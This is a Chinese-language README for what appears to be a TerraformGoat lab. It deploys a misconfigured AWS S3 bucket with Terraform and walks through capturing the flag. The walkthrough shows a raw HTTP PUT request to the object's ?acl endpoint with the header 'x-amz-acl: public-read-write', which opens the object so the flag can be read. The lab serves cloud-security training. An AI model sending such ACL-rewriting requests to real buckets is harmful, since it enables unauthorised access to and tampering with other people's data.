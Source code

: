 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

虽然你在实际环境中可能不会遇到，玩的愉快

## 部署环境

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

输入yes之后，会自动的快速构建场景

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

我们看到的文件的列表，尝试访问index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read-write`来修改这个对象是否可以读或写

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

然后我们再获取一下这个对象的ACL，会发现，现在所有用户都可以对其进行读写

![image-20220426172506589](../../../images/image-20220426172506589.png)

随后在访问这个index.html，成功获取flag

![image-20220426172534934](../../../images/image-20220426172534934.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

输入yes即可

![image-20220426173554665](../../../images/image-20220426173554665.png)

